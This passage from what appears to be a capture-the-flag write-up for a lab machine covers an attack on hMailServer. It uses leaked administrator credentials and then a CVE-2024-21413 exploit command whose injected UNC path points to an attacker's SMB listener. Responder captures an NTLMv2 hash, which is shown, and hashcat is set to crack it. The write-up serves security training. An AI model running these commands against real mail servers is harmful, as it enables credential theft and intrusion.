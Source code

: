 ```
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

![images (33)](images (33).png)

Critically, it exposed the administrator password: `homenetworkingadministrator`.

---

## Exploitation

### hMailServer Access

Using the leaked credentials (`administrator@mailing.htb:homenetworkingadministrator`), connected via IMAP/POP3 to enumerate mailboxes. Swaks was used for SMTP testing:

```bash
swaks --to maya@mailing.htb --from administrator@mailing.htb --server mailing.htb:587 --auth LOGIN --auth-user administrator@mailing.htb --auth-password homenetworkingadministrator -tls
```

This confirmed access to the `maya` mailbox.

### CVE-2024-21413 Exploitation

hMailServer versions prior to 5.6.9 are vulnerable to CVE-2024-21413, allowing UNC path injection in email subjects to leak NTLM hashes via SMB.

A Python exploit was used (from GitHub PoC):

```bash
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.1\test\meeting" --subject "test"
```

- Set up Responder or Impacket for NTLM capture: `responder -I tun0 -v`
- The exploit sent an email with a UNC path in the subject, triggering an SMB authentication attempt from the server.

Captured hash:

```
[SMB] NTLMv2-SSP Client   : 10.10.11.222
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:95de498996a31a8c:D2BABC773FF653EE285D33E6FE5493A6:0101000000000000...
```

Cracked the NTLMv2 hash with Hashcat:

```bash
hashcat -m 5600 maya_hash.txt /usr/share/wordlists/rockyou.txt
```
